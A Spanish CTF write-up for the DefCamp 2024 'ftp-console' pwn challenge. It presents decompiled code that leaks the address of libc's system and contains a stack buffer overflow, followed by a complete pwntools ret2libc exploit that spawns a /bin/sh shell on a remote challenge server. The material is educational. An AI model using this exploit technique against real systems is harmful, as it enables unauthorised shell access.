 ```yaml
---
layout: post
title: ftp-console DefCamp 2024
comments: true
categories: [Pwn, Writeups, DefCamp]
---
```


Este es un reto de la competición de CTF DefCamp 2024, organizada por [DefCamp](https://www.linkedin.com/company/defcamp/?originalSubdomain=es). Este fue uno de los 4 retos de la categoría de PWN, de dificulatd "fácil", que por falsos positivos de libc database no pude completar.

![Image]({{ site.baseurl }}/images/posts/2024-10-1-Buy-coffee-DefCamp24-CTF-Logo.png)

# Overview

En este reto nos aprovecharemos de un leak en la Libc para llamar a *system*.

# Reconocimiento

Comenzamos lanzando *checksec*:

```
	Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

Vemos que tenemos arquitectura de 32 bits y prácticamente no hay protecciones. Si descompilamos con *ghidra*, veremos que el código es bastante simple:

```c
int main(void) {
  login();
  return 0;
}

void login() {

  size_t fin_variable;
  int iVar1;
  char password [32];
  char username [32];
  int local_10;
  
  local_10 = 0;
  puts("220 FTP Service Ready");
  printf("USER ");
  fgets(username,0x20,_stdin);
  fin_variable = strcspn(username,"\n");
  username[fin_variable] = '\0';
  puts("331 Username okay, need password.");
  printf("[DEBUG] Password buffer is located at: %lp\n",system);    // Leak de system en libc
  printf("PASS ");
  fgets(password,100,_stdin);                                       // Buffer Overflow
  iVar1 = strcmp(username,"admin");
  if (iVar1 == 0) {
    iVar1 = strcmp(password,"password123\n");
    if (iVar1 == 0) {
      local_10 = 1;
    }
  }
  if (local_10 == 0) {
    puts("530 Login incorrect.");
  }
  else {
    puts("230 User logged in, proceed.");
  }
  return;
}
```

Ignoramos las credenciales que se nos dan ya que al utilizarlas no se imprimirá ninguna flag. Vemos en su lugar que el propio program en una línea de "debug" nos da la dirección de *system* en Libc.

# Explotación

Teniendo dicha dirección, sólo debemos encontrar el offset hasta la dirección base para poder calcular la dirección de una string `"/bin/sh"`. Para ello, debemos capturar el leak del servidor e introducirlo en [libc-database](https://libc.rip/), que nos dirá que la versión es la `./libc6_2.35-0ubuntu3.7_i386.so`, también nos dará el offset hasta `"/bin/sh"`, con lo que podremos construir nuestro script:

```python
#! /bin/python3
# -*- coding: utf-8 -*-

from pwn import *

libc = ELF("./libc6_2.35-0ubuntu3.7_i386.so")

def start():
    if args.REMOTE:
        return remote('34.89.166.46', 30379  )

    else: return process('./ftp_server')
    

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX unknown - GNU_STACK missing
# PIE:        No PIE (0x8048000)
# Stack:      Executable
# RWX:        Has RWX segments
# Stripped:   No

io = start()

io.recvuntil(b"USER ")
io.sendline(b"admin")

io.recvuntil(b"ed at:")
system = io.recvline().strip()
system = int(system, 16)
log.success(f"System {hex(system)}")


libc_base = system - libc.sym["system"]
bin_sh = libc_base + 0x1bd0d5    # Offset hasta "/bin/sh"

log.success(f"Libc {hex(libc_base)}")
log.success(f"bin_sh {hex(bin_sh)}")

io.recvuntil(b"PASS")

payload = b"A"*80
payload += p32(system)
payload += p32(0xdeadbeef)  # Funcion a la que llama "system al salir", puede ser cualquier cosa
payload += p32(bin_sh)

log.info(f"Payload: {payload}")

io.sendline(payload)

io.interactive()
```

Un reto que es sencillo, pero que tras varias respuestas erróneas de las bases de datos de libcs, no pudimos sacar.